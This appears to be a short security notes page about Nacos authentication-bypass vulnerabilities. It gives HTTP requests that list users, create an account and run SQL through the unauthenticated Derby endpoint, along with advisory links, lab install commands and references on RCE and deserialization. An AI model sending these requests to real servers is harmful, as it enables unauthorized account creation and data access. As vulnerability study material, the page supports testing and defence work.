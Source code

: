 ### 查看用户
```
GET /nacos/v1/auth/users?pageNo=1&pageSize=100
```

### 创建用户
```
POST /nacos/v1/auth/users?username=test&password=test123
```

### unauth
```
/nacos/v1/cs/ops/derby?sql=select+st.tablename+from+sys.systables+st
```

> These endpoints are only valid when using embedded storage (derby DB) so this issue should not affect those installations using external storage (e.g. mysql)

- https://securitylab.github.com/advisories/GHSL-2020-325_326-nacos/
- https://www.cnblogs.com/hack404/p/14697313.html



## 安装
https://github.com/alibaba/nacos/releases/download/2.0.3/nacos-server-2.0.3.zip
```
unzip -q nacos-server-2.0.3.zip
bin/startup.sh -m standalone
```

![image](https://user-images.githubusercontent.com/30398606/173304250-3c57144d-6b7b-4291-bc31-473c07cf504b.png)


## 参考
- [Nacos结合Spring Cloud Gateway RCE利用](https://xz.aliyun.com/t/11493)
- [Nacos Client Yaml反序列化漏洞分析](https://xz.aliyun.com/t/10355)
